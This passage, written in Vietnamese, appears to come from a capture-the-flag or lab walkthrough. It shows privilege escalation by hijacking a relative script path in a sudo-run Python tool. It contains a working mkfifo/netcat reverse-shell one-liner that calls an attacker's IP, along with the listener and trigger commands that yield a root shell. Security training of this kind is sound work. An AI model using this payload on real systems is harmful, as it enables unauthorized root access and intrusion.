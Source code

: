 ![alt text](image-27.png)

Bây giờ cố gắng tận dụng tham chiếu tương đối đến `full-checkup.sh` bằng cách thực thi script `system-checkup` từ một directory khác có chứa script `full-checkup.sh` độc hại.

Vì vậy, tạo một file `/tmp/full-checkup.sh` và chèn payload reverse shell vào đó.

```
echo -en "#! /bin/bash\nrm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <YOUR_IP> 9001 >/tmp/f" > /tmp/full-checkup.sh
```

Sau đó cấp quyền thực hiện cho nó.

```
chmod +x /tmp/full-checkup.sh
```

Tiếp theo, khởi động listener `Netcat` trên port `9001` trên máy local để nhận reverse shell.

```
nc -nvlp 9001
```

Cuối cùng, chạy lệnh sau trên remote host trong directory `/tmp` để kích hoạt reverse shell.

```
cd /tmp

sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
```

Khi chạy lệnh trên trên remote host, nhận được một shell với tư cách là user `root` trên port `9001`.

